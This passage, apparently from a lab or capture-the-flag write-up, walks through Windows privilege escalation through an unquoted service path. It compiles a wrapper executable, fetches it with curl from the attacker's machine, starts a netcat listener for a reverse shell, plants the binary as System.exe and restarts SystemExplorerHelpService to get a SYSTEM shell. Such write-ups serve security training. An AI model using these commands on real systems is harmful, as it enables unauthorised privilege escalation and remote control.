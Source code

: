 ```csharp
mcs Wrapper.cs
```

![Untitled](Personal%20P%20ec072/Untitled%2021.png)

I started a webserver with Python to copy the executable over to the Personal PC.

```csharp
curl http://10.50.55.63/Wrapper.exe -o %TEMP%\wrapper-Incendium.exe
```

- [http://10.50.55.63/Wrapper.exe](http://10.50.55.63/Wrapper.exe) is the compiled executable on my attacking machine
- %TEMP%\wrapper-Incendium.exe is the output path for the executable

I started to listen for incoming connections on port 23555 (The port I specified in the wrapper code) 

```csharp
nc -lvnp 23555
```

Next I copied the Wrapper.exe to the C:\Program Files (x86)\System Explorer\ path with this command:

```csharp
copy %TEMP%\wrapper-Incendium.exe "C:\Program Files (x86)\System Explorer\System.exe"
```

Now, if we were to restart the SystemExplorerHelpService service, I would receive a reverse shell as the system:

```csharp
sc stop SystemExplorerHelpService
```

- I stop the service here

```csharp
sc start SystemExplorerHelpService
```

- Here I start the service again

Reverse shell as system:

![Untitled](Personal%20P%20ec072/Untitled%2022.png)

---